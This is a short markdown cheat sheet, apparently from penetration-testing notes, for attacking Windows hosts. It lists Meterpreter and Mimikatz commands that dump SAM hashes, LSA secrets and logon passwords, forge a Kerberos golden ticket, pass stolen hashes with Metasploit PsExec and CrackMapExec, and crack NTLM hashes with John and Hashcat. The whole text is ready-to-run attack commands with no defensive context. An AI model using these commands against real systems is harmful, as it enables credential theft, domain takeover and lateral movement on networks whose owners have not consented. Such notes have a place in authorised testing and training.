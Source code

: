 #### Metaslpoit (Meterpreter) Mimikatz
```
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell
mimikatz.exe
lsadump::sam - check for SysKey and SAMKey
lsadump::secrets
sekurlsa::logonpassword
```
```
lsadump::lsa /patch - hashes dump
```
#### Golden Ticket
```
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user: /domain: /sid: /krbtgt: /id: 
misc::cmd
```
### Pass-the-hash Attacks

* Metasploit PsExec module
* Crackmapexec

We need only the hashes without decryption.

#### Metaslpoit (Meterpreter)
```
pgrep lsass
migrate 1234
load kiwi
lsa_dump_sam - take note of the NTLM hash
hashdump - take note of the LM hash
```
Metaslpoit
```
search psexec
set options
set smbuser administrator
set smbpass hashNTLM:hashLM
set target Native\ upload
exploit
```
#### Crackmapexec
```
crackmapexec smb 10.10.10.1 -u Administrator -H “hashNTLM” -x “ipconfig”
```
## Windows cracking password hashes

### NTLM Hashes

#### Meterpreter
```
hashdump
john —list=formats | grep NT
john —format=NT hashes.txt
john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
hashcat -a 3 -m 1000 hash /usr/share/wordlists/rockyou.txt
```

